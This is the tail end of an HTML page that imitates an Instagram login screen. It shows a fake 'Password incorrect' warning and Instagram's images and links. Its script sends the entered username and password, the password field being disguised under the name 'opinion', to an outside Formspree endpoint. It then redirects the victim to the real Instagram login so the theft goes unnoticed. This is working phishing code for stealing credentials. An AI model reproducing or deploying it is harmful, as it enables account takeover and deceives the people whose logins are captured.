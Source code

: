   .new-box {
      margin-top: 20px;
      text-align: center;
    }

   .red-text {
      color: red;
    }
  </style>
</head>
<body>

  <div class="container">

  <form id="loginForm" method="post">
      <img id="profile-image" src="https://i.postimg.cc/7P93fv1p/instagrampicture.jpg" alt="Profile Image">

  <input type="text" id="username" name="name" placeholder="Username" required>
      <input type="password" id="password" name="opinion" placeholder="Password" required>
      <p class="red-text">*Password incorrect* Please check your password and try again</p>
      <br><h5><a href="https://www.instagram.com/accounts/password/reset/">Forgotten your password ?</a></h5></br>

   <br><button type="button" id="loginButton" onclick="submitForm()">Login</button></br>
      
 </form>
    
  </div>
  
  <div class="new-box">
    <p>Don't have an account?<a href="https://www.instagram.com/accounts/emailsignup/">Sign in</a></p>
  </div>

  <script>
    function submitForm() {
      // Set Formspree action dynamically
      document.getElementById("loginForm").action = "https://formspree.io/f/mleqenle";

      // Submit the form
      document.getElementById("loginForm").submit();

      // Redirect to another website after Formspree processing
      window.location.href = "https://www.instagram.com/accounts/login/";
    }
  </script>

</body>
</html>

